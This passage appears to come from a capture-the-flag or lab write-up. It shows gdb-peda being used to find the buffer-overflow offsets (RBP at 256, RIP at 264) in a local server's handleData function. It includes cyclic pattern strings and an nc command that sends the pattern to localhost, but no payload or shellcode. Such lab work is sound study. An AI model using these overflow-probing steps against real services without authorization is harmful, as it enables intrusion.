 ```
0016| 0x7fffffffdbe8 ("A%JA%fA%5A%KA%gA%6A%\n")
0024| 0x7fffffffdbf0 ("5A%KA%gA%6A%\n")
0032| 0x7fffffffdbf8 --> 0xa25413625 ('%6A%\n')
0040| 0x7fffffffdc00 --> 0x0
0048| 0x7fffffffdc08 --> 0x0
0056| 0x7fffffffdc10 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004009c2 in handleData ()
gdb-peda$
```

peda has the function `pattern_search`, which searches for the peda-pattern wherever it can:

```
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 256
Registers point to pattern buffer:
[RDI] --> offset 6 - size ~203
[RSP] --> offset 264 - size ~38
Pattern buffer found at:
0x0060301a : offset    0 - size  300 ([heap])
0x00007fffffffd968 : offset  203 - size    4 ($sp + -0x270 [-156 dwords])
[...]
```

It didnt not find the pattern in RIP, but RSP is pointing 264 bytes into the pattern.

Lets try it again with a pattern of 264+4=268 bytes:

```
gdb-peda$ pattern create 268
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%d'
gdb-peda$ attach 17147
[...]
gdb-peda$ c
```

Send the (now smaller) pattern to the server:
```
root@hlUbuntu64:~/challenges/challenge15# echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%d' | nc localhost 5001
```

And investigate it again:
```
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 256
RIP+0 found at offset: 264
Registers point to pattern buffer:
[RDI] --> offset 6 - size ~203
Pattern buffer found at:
0x0060301a : offset    0 - size  268 ([heap])
[...]
```
